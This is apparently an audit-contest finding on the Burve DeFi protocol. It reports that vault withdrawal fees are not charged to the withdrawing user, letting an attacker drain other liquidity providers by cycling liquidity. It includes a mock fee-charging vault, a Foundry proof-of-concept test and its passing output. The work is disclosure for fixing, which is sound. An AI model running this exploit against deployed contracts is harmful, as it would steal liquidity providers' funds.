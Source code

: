 Curved Lemonade Dove

High

# Vertex calculates the vault fee for closure, but the final fee is not borne by the user, which will cause the attacker to make the liquidity provider lose all of their funds

### Summary

The general call logic for taking out liquidity is as follows:
ValueFacet.removeValue()
——   assets.remove()
——   vertex.withdraw()
———— E4626.withdraw()
        

In the E4626.sol contract, both `totalAssets` and `self.totalShares` in the `withdraw function` take into account the vault fee. However, the amount is not considered, the amount is the accurate value of the user to withdraw the liquidity funds, and the calculation here does not consider whether the sharesToRemove belongs to the user, if these shares do not belong to the user, the deduction is actually the liquidity of other users in the closure.
```solidity
        uint256 sharesToRemove = FullMath.mulDiv(
            self.totalShares,
            amount,
            totalAssets
        ); // Rounds down, leaves some share dust in the vault.
        self.shares[cid] -= sharesToRemove;
```
In addition, the vault fee logic is also not taken into account when processing the user ledger in the assets.remove() function.
As a result, the attacker can donate all the funds in the closure to the vault in the form of vault fees by constantly adding/removing liquidity. Liquidity providers will lose all of their funds.

### Root Cause

In neither the [Asset.sol](https://github.com/sherlock-audit/2025-04-burve/blob/44cba36e2a0c3cd7b6999459bf7746db92f8cc0a/Burve/src/multi/Asset.sol#L106-L130) nor [E4626.sol](https://github.com/sherlock-audit/2025-04-burve/blob/44cba36e2a0c3cd7b6999459bf7746db92f8cc0a/Burve/src/multi/vertex/E4626.sol#L146-L153) contracts, the vault fee is deducted from the user's ledger.

### Internal Pre-conditions

none

### External Pre-conditions

1. There is a handling fee for vault.

### Attack Path

1. Liquidity providers (referred to by bob) deposit liquidity and expect to continue to earn profits.
2. Attacker alice, constantly adding/removing liquidity through flash loans. (This process will exhaust the funds in the pool.)
3. Liquidity providers cannot withdraw their liquidity, they will lose all their funds.

### Impact

Liquidity providers may lose all of their funds.

### PoC

Running the poc requires the vault to be able to charge a fee, so replace test/mocks/MockERC4626.sol with the following code.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "openzeppelin-contracts/token/ERC20/extensions/ERC4626.sol";
import "openzeppelin-contracts/token/ERC20/ERC20.sol";

contract MockERC4626 is ERC4626 {
    uint _fee;

    constructor(
        ERC20 asset,
        string memory name,
        string memory symbol
    ) ERC20(name, symbol) ERC4626(asset) {}

    /** @dev See {IERC4626-previewWithdraw}. */
    function previewWithdraw(uint256 assets) public view virtual override returns (uint256) {
        assets = assets * (10000 - _fee) / 10000;
        return _convertToShares(assets, Math.Rounding.Ceil);
    }

    /** @dev See {IERC4626-previewRedeem}. */
    function previewRedeem(uint256 shares) public view virtual override returns (uint256) {
        shares = shares * (10000 - _fee) / 10000;
        return _convertToAssets(shares, Math.Rounding.Floor);
    }

    function setFee(uint fee) public {
        _fee = fee;
    }
}
```

run `forge test --mt test_user_withdraw_no_vault_fee -vvvv`
Put the following poc into the test/facets/ folder:
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.27;

import {MultiSetupTest} from "./MultiSetup.u.sol";
import {console2 as console} from "forge-std/console2.sol";
import {ValueFacet} from "../../src/multi/facets/ValueFacet.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";
import {AssetBookImpl} from "../../src/multi/Asset.sol";
import {MAX_TOKENS} from "../../src/multi/Token.sol";
import {MockERC20} from "../mocks/MockERC20.sol";
import {MockERC4626} from "../mocks/MockERC4626.sol";

contract VaultFeeTest is MultiSetupTest {
    function setUp() public {
        vm.startPrank(owner);
        _newDiamond();
        _newTokens(4);
        _fundAccount(alice);
        _fundAccount(bob);
        // Its annoying we have to fund first.
        _fundAccount(address(this));
        _fundAccount(owner);
        // So we have to redo the prank.
        vm.startPrank(owner);
        _initializeClosure(0xF, 100e18); // 1,2,3,4
        _initializeClosure(0xE, 100e18); // 2,3,4
        _initializeClosure(0xD, 100e18); // 1,3,4
        _initializeClosure(0xc, 1e12); // 3,4
        _initializeClosure(0xB, 100e18); // 1,2,4
        _initializeClosure(0xa, 1e12); // 2,4
        _initializeClosure(0x9, 1e18); // 1,4
        _initializeClosure(0x8, 1e12); // 4
        _initializeClosure(0x7, 100e18); // 1,2,3
        _initializeClosure(0x6, 1e12); // 2,3
        _initializeClosure(0x5, 1e12); // 1,3
        _initializeClosure(0x4, 1e12); // 3
        _initializeClosure(0x3, 100e18); // 1,2
        _initializeClosure(0x2, 1e12); // 2
        _initializeClosure(0x1, 1e12); // 1
        vm.stopPrank();
    }

    function test_user_withdraw_no_vault_fee() public {
        uint256 oneX128 = 1 << 128;
        // In order to facilitate the display effect, set a very large fee, and the principle remains the same. Even if the fee is not high, an attacker can use up the funds by making multiple calls through a flash loan.
        MockERC4626(address(vaults[0])).setFee(2000);

        uint256[4] memory initBalances = getBalances(alice);

        vm.prank(bob);
        valueFacet.addValue(bob, 0x9, 1e18, 0);

        // Alice exhausts the funds in the diamond by adding and removing liquidity.
        vm.prank(alice);
        valueFacet.addValue(alice, 0x9, 1e19, 0);
        
        vm.prank(alice);
        valueFacet.removeValue(alice, 0x9, 1e19, 0);
        (uint256 value1, uint256 bgtValue1, , ) = valueFacet.queryValue(
            alice,
            0x9
        );

        uint256[4] memory initBalances1 = getBalances(alice);
        // Alice's funds have not decreased, just a loss of 1wei precision.
        console.log("alice diffBalance0:", initBalances[0] - initBalances1[0]);
        console.log("alice diffBalance3:", initBalances[3] - initBalances1[3]);

        // Bob will not be able to remove liquidity, as will other users.
        vm.startPrank(bob);
        vm.expectRevert();
        valueFacet.removeValue(bob, 0x9, 1e18, 0);
    }

    function getBalances(
        address who
    ) public view returns (uint256[4] memory balances) {
        for (uint8 i = 0; i < 4; ++i) {
            balances[i] = ERC20(tokens[i]).balanceOf(who);
        }
    }
}
```

```diff
[PASS] test_user_withdraw_no_vault_fee() (gas: 1355443)
Logs:
  alice diffBalance0: 1
  alice diffBalance3: 1

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.73ms (2.77ms CPU time)
```

### Mitigation

_No response_